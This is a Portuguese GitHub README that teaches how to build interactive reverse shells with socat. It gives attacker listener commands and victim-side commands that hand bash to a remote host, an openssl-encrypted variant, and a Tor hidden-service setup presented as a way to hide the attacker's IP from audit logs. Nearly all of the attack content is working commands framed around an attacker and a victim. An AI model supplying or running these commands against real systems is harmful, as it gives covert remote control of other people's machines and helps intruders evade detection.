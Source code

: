 <p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer que o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta e assim permite que o atacante abra uma porta de escuta em seu servidor para receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Podemos criar [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) de várias formas, nesse post utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Basta usar o openssl para criar as chaves.

Servidor:
```shell
# Atacante
PORT="1111"
openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"
socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```
Cliente:
```shell
# Vítima
HOST=localhost
PORT=1111
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid  
 ```
  
## Shell reverso utilizando a rede tor

Em sistemas robustos são guardados vários logs, inclusive de conexões. Assim o endereço de ip da atacante seria facimente descoberto em uma auditoria. Mas utilizando a rede tor o atacante consegue tornar seu endereço de ip desconhecido, ele deve ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa do proxy tor para redirecionar o servidor socat para rede tor. Para isso, o atacante precisa adicionar as seguintes linhas ao arquivo ao final do arquivo <strong>/etc/tor/torrc</strong>:

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```
Desta forma, todas as requisições que vierem da rede tor pela porta 1111 serão redirecionadas para localhost:1111.

Agora reinicie o tor:

```
systemctl restart tor
```

Para descobrir qual é o domínio do atacante na rede tor, digite:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo algo assim, exemplo:
domínio-do-atacante.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=domínio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor usando o openssl como foi mostrado acima. Mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Podemos dizer que é extremamente difícil identificar o atacante. Abaixo coloquei alguns links de algumas pessoas conhecidas no meio de cyber security.

## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do Hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
